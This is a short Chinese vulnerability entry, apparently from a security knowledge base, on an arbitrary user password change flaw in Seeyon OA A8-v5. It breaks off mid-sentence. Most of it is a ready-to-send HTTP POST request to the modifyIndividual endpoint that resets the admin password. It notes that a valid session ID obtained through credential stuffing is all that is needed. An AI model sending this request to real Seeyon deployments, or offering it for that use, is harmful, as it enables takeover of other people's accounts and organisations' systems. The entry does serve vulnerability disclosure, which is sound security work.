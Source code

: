 致远OA A8-v5 任意用户密码修改
=============================

一、漏洞简介
------------

致远A8-V5在设计时存在逻辑错误，在上一步对原始密码进行验证后，下一步不再检测原始密码，从而直接修改用户密码，导致平行权限的越权漏洞。

二、漏洞影响
------------

致远OA A8-v5

三、复现过程
------------

POST如下数据

    POST /seeyon/individualManager.do?method=modifyIndividual HTTP/1.0

    Accept: text/html, application/xhtml+xml, */*

    Referer: http://www.0-sec.org/seeyon/individualManager.do?method=managerFrame

    Accept-Language: zh-CN

    User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko

    Content-Type: application/x-www-form-urlencoded

    Proxy-Connection: Keep-Alive

    Pragma: no-cache

    Content-Length: 86

    DNT: 1

    Host: www.0-sec.org

    Cookie: JSESSIONID=DA71A65B3AAD45823A1FADAB80A3E685; Hm_lvt_49c0fa7f96aa0a5fb95c62909d5190a6=1419221849,1419232608; avatarImageUrl=8469117046183055270; loginPageURL="/main.do"



    individualName=admin&formerpassword=123456&nowpassword=wy123456&validatepass=wy123456

individualName为用户名

注意，此处需要以一个合法的JSESSIONID发送如上数据即可修改任意用户密码，合法的JSESSIONID由撞库得出。

本次证明演示中修改的用户为admin，修改
